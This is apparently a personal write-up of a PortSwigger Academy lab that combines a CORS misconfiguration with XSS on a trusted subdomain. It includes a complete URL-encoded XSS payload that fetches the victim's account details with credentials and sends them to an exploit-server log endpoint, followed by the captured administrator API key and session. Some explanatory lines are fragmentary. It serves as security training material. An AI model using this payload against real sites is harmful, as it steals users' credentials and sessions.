








resource: 
- [lab and concept](https://youtu.be/RKe6r63OxXw)
- [medium writeup](https://medium.com/@relzy/day-4-of-portswigger-academy-lab-walkthrough-cors-xxe-injection-6c7d85302e86)

Rectified my rookie mistake this time, by checking every allow origin header i.e. `Access-Control-Allow-Origin: null`
`Access-Control-Allow-Origin: https://sha-bang.com`
`Access-Control-Allow-Origin: *`

Check for same body with a different scheme/protocol and different domain/subdomain as well

Vulnerable to XSS
https://stock.0ab500b5040f90c980f7c381000b000e.web-security-academy.net/?productId=1&storeId=1

&storeId=1
</script>

But this code won't work because
So we need to do url encoding. For that purpose go to decoder of burp type the special character and replace them with their url encoded equivalent.

URL Encoded Code:

Firstly we're redirecting the user to this url

Then within the url we're running a script to get the account details from stock.xyz as this domain is allowed to request resources from the browser

"http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" 

Using the portswigger academy's payload/script

`"GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22SDwcWNFtIOj550zdaEz3m8AITd4fNMXY%22,%20%20%22sessions%22:%20[%20%20%20%20%224Uqg9U9cHjkhJHrp8GvaaLN4A22gXZz9%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36"`

Lab Solved!!!
